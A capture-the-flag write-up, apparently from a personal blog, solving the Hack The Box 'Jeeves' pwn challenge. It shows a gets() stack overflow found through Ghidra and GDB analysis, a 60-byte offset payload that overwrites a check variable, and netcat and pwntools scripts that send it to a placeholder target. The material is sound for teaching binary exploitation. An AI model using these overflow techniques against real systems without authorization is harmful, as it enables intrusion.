 ```yaml
---
layout: single
title:  "Intro to Binary Exploitation: HTB Jeeves"
seo_title: "Introduction to Binary Exploitation with Hack The Box: Jeeves Pwn Challenge writeup"
date:   2023-09-08 12:30:00 +0200
categories: ['Binary-Exploitation','HackTheBox']
classes: wide
toc: true
excerpt: Hack The Box Jeeves writeup for the first Pwn challenge in the Intro to Binary Exploitation track.
header:
    teaser: "/assets/images/headers/Jeeves.png"
---
```

Today we take on a simple binary exploitation challenge from Hack The Box. In this post we are going to solve the Jeeves Pwn challenge from the **Intro to Binary Exploitation** track.

## Running the program
We start off by running the program normally. We are given a prompt asking for our name.
```bash
$ ./jeeves 
Hello, good sir!
May I have your name? bytebl33d
Hello bytebl33d, hope you have a good day! 
```
The program subsequently prints a greeting message back to us. Based on this response alone, we can assume that our input is stored somewhere in a buffer.

## Examining the binary with Ghidra
Let's decompile the binary using Ghidra so that we can better understand its inner workings. After importing the binary we can analyze the `main` function:
```c
main(void){
  char input [44];
  int file;
  void *buffer;
  int check;
  
  check = -0x21523f2d;
  printf("Hello, good sir!\nMay I have your name? ");
  gets(input);
  printf("Hello %s, hope you have a good day!\n",input);
  if (check == 0x1337bab3) {
    buffer = malloc(0x100);
    file = open("flag.txt",0);
    read(file,buffer,0x100);
    printf("Pleased to make your acquaintance. Here\'s a small gift: %s\n",buffer);
    close(file);
  }
  return 0;
}
```
The user input is stored inside the input buffer with a size of 44 bytes. We also see there is a `flag.txt` file that gets opened after the if-statement that verfifies if the `check` variable is equal to the value `0x1337bab3` (or in other words 'leetbabe'). However, this check is never going to succeed because the `check` variable is initialized in a different way. We therefore need to find out how to overwrite this variable on the stack. 

The assembly view in Ghidra shows this variable is given the hex value of `0xdeadc0d3` (since this is indeed just dead code).

![ghidra](/assets/images/binary-exploitation/ghidra.png)

## Examining the binary in GDB
Loading the binary into GDB and disassembling the `main` function we get the following output:
```as
$ gdb jeeves

pwndbg> disass main
Dump of assembler code for function main:
   0x00000000000011e9 <+0>: endbr64
   0x00000000000011ed <+4>: push   rbp
   0x00000000000011ee <+5>: mov    rbp,rsp
   0x00000000000011f1 <+8>: sub    rsp,0x40
   0x00000000000011f5 <+12>:    mov    DWORD PTR [rbp-0x4],0xdeadc0d3
   0x00000000000011fc <+19>:    lea    rdi,[rip+0xe05]        # 0x2008
   0x0000000000001203 <+26>:    mov    eax,0x0
   0x0000000000001208 <+31>:    call   0x10a0 <printf@plt>
   0x000000000000120d <+36>:    lea    rax,[rbp-0x40]
   0x0000000000001211 <+40>:    mov    rdi,rax
   0x0000000000001214 <+43>:    mov    eax,0x0
   0x0000000000001219 <+48>:    call   0x10d0 <gets@plt>
   0x000000000000121e <+53>:    lea    rax,[rbp-0x40]
   0x0000000000001222 <+57>:    mov    rsi,rax
   0x0000000000001225 <+60>:    lea    rdi,[rip+0xe04]        # 0x2030
   0x000000000000122c <+67>:    mov    eax,0x0
   0x0000000000001231 <+72>:    call   0x10a0 <printf@plt>
```
Our task is to figure out how many bytes we have to overflow the buffer in order to overwrite the `check` variable. Lets's set a breakpoint right after the `gets` call and run the program (just enter some A's as our input):
```as
pwndbg> b *main+53
pwndbg> r

<SNIP>

*RBP  0x7fffffffdec0 ◂— 0x1
*RSP  0x7fffffffde80 ◂— 'AAAAAAAAAA'
*RIP  0x55555555521e (main+53) ◂— lea rax, [rbp - 0x40]
────────────────────────────────────[ DISASM / x86-64 / set emulate on ] ────────────────────────────────────────────────
 ► 0x55555555521e <main+53>     lea    rax, [rbp - 0x40]
   0x555555555222 <main+57>     mov    rsi, rax
   0x555555555225 <main+60>     lea    rdi, [rip + 0xe04]
   0x55555555522c <main+67>     mov    eax, 0
   0x555555555231 <main+72>     call   printf@plt              <printf@plt>
   0x555555555236 <main+77>     cmp    dword ptr [rbp - 4], 0x1337bab3
   0x55555555523d <main+84>     jne    main+191                <main+191>
   0x55555555523f <main+86>     mov    edi, 0x100
   0x555555555244 <main+91>     call   malloc@plt              <malloc@plt>
   0x555555555249 <main+96>     mov    qword ptr [rbp - 0x10], rax
   0x55555555524d <main+100>    mov    esi, 0
```
Looking at the RIP (Instruction Pointer) above, we can see that it is comparing `dword ptr [rbp - 4]` with `0x1337bab3`. Let's have a look at the value of `rbp-4` in GDB.
```bash
pwndbg> x/x $rbp-4 
0x7fffffffdebc: 0xdeadc0d3
```
To see what happens when we change this variable, we can try to change it using `pwndbg` and continue running the program. Pwndbg is just a handy GDB plug-in that makes debugging with GDB easier for reverse-engineering tasks.
```bash
pwndbg> set *0x7fffffffdebc = 0x1337bab3
pwndbg> x/x $rbp-4
0x7fffffffdebc: 0x1337bab3
pwndbg> c
Continuing.
Hello AAAAAAAAAA, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: 
[Inferior 1 (process 13162) exited normally]
```
Looking at the output we can see that if we are able to change the variable to `0x1337bab3`, we receive a small gift. This is probably the flag we are looking for.

## The Exploitation
Using python3 we can find the offset by generating a pattern and running the program with this input. To make our lifes a bit easier, we can do this with the `pwntools` package as follows:
```bash                                                                                            
pwn cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
We run the program again with the created pattern and inspect `rbp-4`:
```bash
pwndbg> x/x $rbp-4 
0x7fffffffdebc: 0x61616170      # this is paaa in ASCII
```
We see that the variable now gets overwritting with `paaa`. Finding the offset is as easy as just using the `cyclic_find` function from `pwntools`:
```python
$ python3
>>> from pwn import *
>>> cyclic(100)
>>> cyclic_find('paaa')
>>> 60
```
So our final payload will be: `A*60 + 0x1337bab3`.

### Crafting our payload
Now we have all the information to craft our payload.
```python
from pwn import *

check = p64(0x1337bab3)
payload = b"A"*60 + check

print(payload)
```
Or we can run it directly in GDB to test our payload first:
```bash
pwndbg> r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*60 + b"\xb3\xba\x37\x13")')
```

## Executing our payload on the target
Here we will show 2 ways of executing our payload. The first method is a manual approach, while the other is a more automated way using `pwntools`.

### Method 1 (manual)
```bash
nc <IP_ADDRESS> <PORT> <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*60 + b"\xb3\xba\x37\x13")')
```

### Method 2 (pwntools)
```python
from pwn import *

target = process(b"nc")
target.sendline(b"<IP_ADDRESS> <PORT>")

payload = b"A"*60
payload += p64(0x1337bab3)

target.sendline(payload)

print(target.recvuntil(b"}"))
```
Running our exploit code:
```bash
$ python3 exploit.py
[+] Starting local process '/usr/bin/nc': pid 20136
b"Cmd line: Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb3\xba7\x13, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: HTB{w3*****************!}"
[*] Process '/usr/bin/nc' stopped with exit code 0 (pid 20136)
```
After running our exploit, we indeed get the flag back. We have successfully completed our first pwn challenge in the Intro to Binary Exploitation track.